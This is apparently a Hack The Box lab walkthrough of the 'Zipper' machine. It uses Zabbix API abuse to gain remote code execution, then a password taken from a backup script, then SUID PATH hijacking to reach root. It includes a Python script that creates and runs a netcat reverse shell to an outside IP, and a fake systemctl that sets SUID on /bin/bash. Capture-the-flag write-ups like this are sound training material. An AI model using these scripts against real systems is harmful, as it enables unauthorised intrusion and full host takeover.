# Zipper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.1.198                
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-14 23:19 EDT
Nmap scan report for 10.129.1.198
Host is up (0.0099s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
10050/tcp open  zabbix-agent
```

Detailed scan:

```
$ nmap -p 22,80,10050 -sC -sV --min-rate 3000 10.129.1.198   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-14 23:21 EDT
Nmap scan report for 10.129.1.198
Host is up (0.0075s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5920a3a098f2a7141e08e09b8172990e (RSA)
|   256 aafe25f821247cfcb54b5f0524694c76 (ECDSA)
|_  256 892837e2b6ccd580381fb26a3ac3a184 (ED25519)
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
10050/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Added `zipper.htb` to the `/etc/hosts` file as per standard HTB practice.

### Web Enum -> Zabbix

Port 80 shows the default Apache2 page:



Running a `gobuster` scan reveals a `/zabbix` directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -u http://zipper.htb           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zipper.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/zabbix               (Status: 301) [Size: 309] [-> http://zipper.htb/zabbix/]
```

Zabbix is an open-source software used to monitor IT infrastructure via a dashboard, and it does have its fair share of vulnerabilities.

Visiting the directory returns a login page:



I didn't have any credentials, so I signed in as a guest user. When the dashboard is viewed, there's a version at the bottom:



Zabbix 3.0.21 is running, and it is likely outdated and has public exploits for it. Interestingly, when looking at the dashboard, I can see that there is a `zapper` user or machine:



This entity has a backup script. `zapper` sounds like a user of some sorts. If I attempt to login with `zapper:zapper`, I get a unique error message:



This means the the password is legitimately `zapper`, since it did not return an invalid password error. I took a look at the documentation for Zabbix , and found that there was an API:



This was located at the `api_jsonrpc.php` file. 

### Zabbix API

Firstly, since GUI access was disabled, it is likely that I have to use the credentials I found to sign in.

This can be done using `curl`:

```
$ curl http://zipper.htb/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.login", "id":1, "params":{"user": "zapper", "password": "zapper"}}' 
{"jsonrpc":"2.0","result":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}
```

Using this token, I can perform some authenticated actions like listing hosts:

```
$ curl --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"host.get","params":{"output":["hostid"]},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' 
{"jsonrpc":"2.0","result":[{"hostid":"10105"},{"hostid":"10106"}],"id":1}
```

Now that I have privileges over this, I took a look at the users present:

```
$ curl --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"user.get","params":{"output":["hostid"]},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}'
{"jsonrpc":"2.0","result":[{"userid":"1"},{"userid":"2"},{"userid":"3"}],"id":1}
```

This output can be extended using `extend`:

```
$ curl --silent --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"user.get","params":{"output":"extend"},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' | jq .
{
  "jsonrpc": "2.0",                                                                         
  "result": [                                                                               
    {                                                                                       
      "userid": "1",                                                                        
      "alias": "Admin",                                                                     
      "name": "Zabbix",                                                                     
      "surname": "Administrator",                                                           
      "url": "",                                                                            
      "autologin": "1",                                                                     
      "autologout": "0",                                                                    
      "lang": "en_GB",                                                                      
      "refresh": "30",                                                                      
      "type": "3",                                                                          
      "theme": "default",                                                                   
      "attempt_failed": "0",                                                                
      "attempt_ip": "",                                                                     
      "attempt_clock": "0",                                                                 
      "rows_per_page": "50"                                                                 
    },                                                                                      
    {                                                                                       
      "userid": "2",                                                                        
      "alias": "guest",                                                                     
      "name": "",                                                                           
      "surname": "",                                                                        
      "url": "",                                                                            
      "autologin": "1",                                                                     
      "autologout": "0",                                                                    
      "lang": "en_GB",                                                                      
      "refresh": "30",                                                                      
      "type": "1",                                                                          
      "theme": "default",                                                                   
      "attempt_failed": "0",                                                                
      "attempt_ip": "",                                                                     
      "attempt_clock": "0",                                                                 
      "rows_per_page": "50"                                                                 
    },                                                                                      
    {                                                                                       
      "userid": "3",                                                                        
      "alias": "zapper",                                                                    
      "name": "zapper",                                                                     
      "surname": "",                                                                        
      "url": "",                                                                            
      "autologin": "0",                                                                     
      "autologout": "0",                                                                    
      "lang": "en_GB",                                                                      
      "refresh": "30",                                                                      
      "type": "3",                                                                          
      "theme": "default",                                                                   
      "attempt_failed": "0",                                                                
      "attempt_ip": "",                                                                     
      "attempt_clock": "0",                                                                 
      "rows_per_page": "50"                                                                 
    }                                                                                       
  ],                                                                                        
  "id": 1                             
}
```

So there's an `admin` user as well. When reading the API documentation, I found out that it can be used to execute scripts:

{% embed url="https://www.zabbix.com/documentation/current/en/manual/api/reference/script" % }

Based on the above, I first took a look at the existing scripts:

```
$ curl --silent --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"script.get","params":{"output":"extend"},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' | jq .
{
  "jsonrpc": "2.0",                                                                         
  "result": [                                                                               
    {                                                                                       
      "scriptid": "1",                                                                      
      "name": "Ping",                                                                       
      "command": "/bin/ping -c 3 {HOST.CONN} 2>&1",                                         
      "host_access": "2",                                                                   
      "usrgrpid": "0",                                                                      
      "groupid": "0",                                                                       
      "description": "",                                                                    
      "confirmation": "",                                                                   
      "type": "0",                                                                          
      "execute_on": "1"                                                                     
    },                                                                                      
    {                                                                                       
      "scriptid": "2",                                                                      
      "name": "Traceroute",                                                                 
      "command": "/usr/bin/traceroute {HOST.CONN} 2>&1",                                    
      "host_access": "2",                                                                   
      "usrgrpid": "0",                                                                      
      "groupid": "0",                                                                       
      "description": "",                                                                    
      "confirmation": "",                                                                   
      "type": "0",                                                                          
      "execute_on": "1"                                                                     
    },                                                                                      
    {                                                                                       
      "scriptid": "3",                                                                      
      "name": "Detect operating system",                                                    
      "command": "sudo /usr/bin/nmap -O {HOST.CONN} 2>&1",                                  
      "host_access": "2",                                                                   
      "usrgrpid": "7",                                                                      
      "groupid": "0",                                                                       
      "description": "",                                                                    
      "confirmation": "",                                                                   
      "type": "0",                                                                          
      "execute_on": "1"                                                                     
    }                                                                                       
  ],                                                                                        
  "id": 1                                                                                   
}
```

There were a few parameters, including a `type` and `execute_on` variable. All of them were set to 1, which refers to the Zabbix server.



I wanted to see what happens if I created two reverse shell scripts, and have one execute on 0 and one on 1.

Based on the Script object documentation, only the `command` and `name` parameters are required. I used this python script to create the script on the machine:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = 'http://zipper.htb/zabbix/api_jsonrpc.php'

headers = {
	'Content-Type':'application/json-rpc'
}

data = {
	"jsonrpc":"2.0",
	"method":"script.create",
	"params": {
		"name":"test",
		"command":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.4 4444 >/tmp/f",
		"execute_on":"1"
	},
	"auth":"06240f1bd5926c26e2d5ef2e8ffe214e",
	"id":"1"
}

r = requests.post(url, headers=headers, json=data, proxies=proxies, verify=False)

print(r.text)
```

This printed the `scriptid` parameter:

```
$ python3 rce.py
{"jsonrpc":"2.0","result":{"scriptids":["4"]},"id":"1"}
```

Now, I have to use the `script.execute` method to run it. This requires a `scriptid` and `hostid` to specify where to run it. I took another look at the hosts available:

```
$ curl --silent --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"host.get","params":{"output":"extend"},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' | jq .
{
  "jsonrpc": "2.0",                                                                         
  "result": [                                                                               
    {                                                                                       
      "hostid": "10105",                                                                    
      "proxy_hostid": "0",                                                                  
      "host": "Zabbix",                                                                     
      "status": "0",                                                                        
      "disable_until": "0",                                                                 
      "error": "",                                                                          
      "available": "0",                                                                     
      "errors_from": "0",                                                                   
      "lastaccess": "0",                                                                    
      "ipmi_authtype": "-1",                                                                
      "ipmi_privilege": "2",                                                                
      "ipmi_username": "",                                                                  
      "ipmi_password": "",                                                                  
      "ipmi_disable_until": "0",                                                            
      "ipmi_available": "0",                                                                
      "snmp_disable_until": "0",                                                            
      "snmp_available": "0",                                                                
      "maintenanceid": "0",                                                                 
      "maintenance_status": "0",                                                            
      "maintenance_type": "0",                                                              
      "maintenance_from": "0",                                                              
      "ipmi_errors_from": "0",                                                              
      "snmp_errors_from": "0",                                                              
      "ipmi_error": "",                                                                     
      "snmp_error": "",                                                                     
      "jmx_disable_until": "0",                                                             
      "jmx_available": "0",                                                                 
      "jmx_errors_from": "0",                                                               
      "jmx_error": "",                                                                      
      "name": "Zabbix",                                                                     
      "flags": "0",                                                                         
      "templateid": "0",                                                                    
      "description": "This host - Zabbix Server",                                           
      "tls_connect": "1",                                                                   
      "tls_accept": "1",                                                                    
      "tls_issuer": "",                                                                     
      "tls_subject": "",                                                                    
      "tls_psk_identity": "",                                                               
      "tls_psk": ""                                                                         
    },                                                                                      
    {                                                                                       
      "hostid": "10106",                                                                    
      "proxy_hostid": "0",                                                                  
      "host": "Zipper",                                                                     
      "status": "0",                                                                        
      "disable_until": "0",                                                                 
      "error": "",                                                                          
      "available": "1",                                                                     
      "errors_from": "0",                                                                   
      "lastaccess": "0",                                                                    
      "ipmi_authtype": "-1",                                                                
      "ipmi_privilege": "2",                                                                
      "ipmi_username": "",                                                                  
      "ipmi_password": "",                                                                  
      "ipmi_disable_until": "0",                                                            
      "ipmi_available": "0",                                                                
      "snmp_disable_until": "0",                                                            
      "snmp_available": "0",                                                                
      "maintenanceid": "0",                                                                 
      "maintenance_status": "0",                                                            
      "maintenance_type": "0",                                                              
      "maintenance_from": "0",                                                              
      "ipmi_errors_from": "0",                                                              
      "snmp_errors_from": "0",                                                              
      "ipmi_error": "",                                                                     
      "snmp_error": "",                                                                     
      "jmx_disable_until": "0",                                                             
      "jmx_available": "0",                                                                 
      "jmx_errors_from": "0",                                                               
      "jmx_error": "",                                                                      
      "name": "Zipper",                                                                     
      "flags": "0",                                                                         
      "templateid": "0",                                                                    
      "description": "Zipper",                                                              
      "tls_connect": "1",                                                                   
      "tls_accept": "1",                                                                    
      "tls_issuer": "",                                                                     
      "tls_subject": "",                                                                    
      "tls_psk_identity": "",                                                               
      "tls_psk": ""                                                                         
    }                                                                                       
  ],                                                                                        
  "id": 1                                                                                   
}
```

It is likely 10106 is the machine itself, and 10105 is a container running Zabbix. Here's the final script I used to run and execute stuff:

```python
import requests
import re
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = 'http://zipper.htb/zabbix/api_jsonrpc.php'

headers = {
	'Content-Type':'application/json-rpc'
}
random_name = random.randint(1000,9999)
data = {
	"jsonrpc":"2.0",
	"method":"script.create",
	"params": {
		"name":f"{random_name}",
		"command":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.4 4444 >/tmp/f",
		"execute_on":"0"
	},
	"auth":"06240f1bd5926c26e2d5ef2e8ffe214e",
	"id":"1"
}

r = requests.post(url, headers=headers, json=data, proxies=proxies, verify=False)

match = re.search(r'"scriptids":\["(\d+)"\]}',r.text)
if not match:
	print('[-] script id not found')
script_id = match[1]

data = {
	"jsonrpc":"2.0",
	"method":"script.execute",
	"params": {
		"scriptid":f"{script_id}",
		"hostid":"10106"
	},
	"auth":"06240f1bd5926c26e2d5ef2e8ffe214e",
	"id":"1"
}

r = requests.post(url, headers=headers, json=data, proxies=proxies, verify=False)
```

Here's the outcome if `execute_on` is set to 1:



And here's the outcome of setting it to 0.



Seems that one shell spawns in the container, and one on the actual host. I continued using the shell from the actual host.

## Privilege Escalation

### Zapper Creds

This machine had 1 user `zapper`, with some interesting files:

```
zabbix@zipper:/home/zapper$ ls -la
ls -la
total 48
drwxr-xr-x 6 zapper zapper 4096 Sep 26  2022 .
drwxr-xr-x 3 root   root   4096 Sep  8  2018 ..
lrwxrwxrwx 1 root   root      9 Sep 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 zapper zapper  220 Sep  8  2018 .bash_logout
-rw-r--r-- 1 zapper zapper 4699 Sep  8  2018 .bashrc
drwx------ 2 zapper zapper 4096 Sep  8  2018 .cache
drwxrwxr-x 3 zapper zapper 4096 Sep  8  2018 .local
-rw-r--r-- 1 zapper zapper  807 Sep  8  2018 .profile
-rw-rw-r-- 1 zapper zapper   66 Sep  8  2018 .selected_editor
drwx------ 2 zapper zapper 4096 Sep  8  2018 .ssh
-rw------- 1 zapper zapper   33 Mar 15 01:14 user.txt
drwxrwxr-x 2 zapper zapper 4096 Sep  8  2018 utils

zabbix@zipper:/home/zapper/utils$ ls -al
ls -al
total 20
drwxrwxr-x 2 zapper zapper 4096 Sep  8  2018 .
drwxr-xr-x 6 zapper zapper 4096 Sep 26  2022 ..
-rwxr-xr-x 1 zapper zapper  194 Sep  8  2018 backup.sh
-rwsr-sr-x 1 root   root   7556 Sep  8  2018 zabbix-service
```

Here's the `backup.sh` script:

```bash
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

There was a password here, which I could use to `su` to `zapper`.



### SUID Binary RE -> Root

There was a `zabbix-service` SUID binary within the `utils` directory I saw earlier. I downloaded a copy via `nc`, and took a look at it within `ghidra`.

The binary uses the `systemctl` binary without the full PATH.



This is pretty easy to exploit:

```bash
cd /home/zapper/utils
echo '#!/bin/bash' > systemctl
echo 'chmod u+s /bin/bash' >> systemctl
chmod +x systemctl
export PATH=/home/zapper/utils:$PATH
./zabbix-service
```



Rooted! There were actually a LOT of different paths for the initial access. Based on 0xdf's writeup, the other paths include:

* Zabbix admin's password being in the container
* Public exploits
* Creating a new administrator user